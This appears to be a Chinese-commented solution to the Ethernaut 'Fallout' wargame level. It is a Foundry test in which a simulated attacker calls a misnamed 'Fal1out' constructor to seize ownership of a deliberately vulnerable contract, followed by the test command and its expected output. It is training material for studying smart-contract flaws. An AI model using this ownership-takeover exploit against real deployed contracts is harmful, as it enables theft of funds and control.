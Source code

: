 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Fallout.sol";

contract FalloutTest is Test {
    Fallout public instance;
    address public attacker = makeAddr("attacker");

    function setUp() public {
        // 部署目标合约
        instance = new Fallout();
        
        // 给攻击者一些初始资金
        vm.deal(attacker, 1 ether);
    }

    function testFalloutExploit() public {
        vm.startPrank(attacker);
        
        console.log("Original owner:", instance.owner());
        console.log("Attacker address:", attacker);
        
        // 攻击步骤：直接调用错误命名的"构造函数"
        instance.Fal1out{value: 0.001 ether}();
        
        // 验证攻击成功
        assertEq(instance.owner(), attacker);
        console.log("New owner:", instance.owner());
        
        vm.stopPrank();
    }
    
    function testOriginalOwnerIsZero() public view {
        // 验证合约部署后没有owner（因为构造函数未执行）
        assertEq(instance.owner(), address(0));
    }
}
```

### 运行测试

```bash
# 运行 Fallout 关卡测试
forge test --match-contract FalloutTest -vvv

# 预期输出：
# [PASS] testFalloutExploit()
# [PASS] testOriginalOwnerIsZero()
```
